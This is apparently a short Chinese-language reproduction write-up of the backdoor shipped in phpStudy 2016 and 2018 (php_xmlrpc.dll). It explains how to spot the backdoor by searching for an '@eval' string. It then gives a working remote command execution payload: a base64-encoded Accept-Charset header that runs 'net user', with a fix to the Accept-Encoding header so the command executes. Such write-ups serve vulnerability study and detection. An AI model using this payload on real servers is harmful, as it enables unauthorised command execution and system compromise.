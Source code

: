 # 0x00 软件介绍
phpstudy：流行的php集成部署环境

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：phpstudy 2018

# 0x02 环境搭建
目标环境：2008_r2_standard_zh-chs

后门代码存在于phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45中的\ext\php_xmlrpc.dll模块中，用记事本打开此文件，查找“@eval”，若文件存在“@eval(%s('%s'));”则存在后门，如下图  
![image](./0.png)  
下载并安装phpstudy 2018，按照提示下一步即可

# 0x03 利用条件
无

# 0x04 影响版本
phpstudy 2016和phpstudy 2018自带的php-5.2.17、php-5.4.45

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

burp抓包，请求头中添加字段：Accept-Charset:ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7  
上述字符串是“echo system("net user");”base64编码后的字符串，结果如下图  
![image](./1.png)  
需要注意，发送的数据包头部中：Accept-Enconding:gzio, deflate有一处问题，deflate与前面的逗号之间有一个空格，需要手动删除，不然无法成功执行命令

# 0x06 踩坑记录
无

# 0x07 参考链接
无
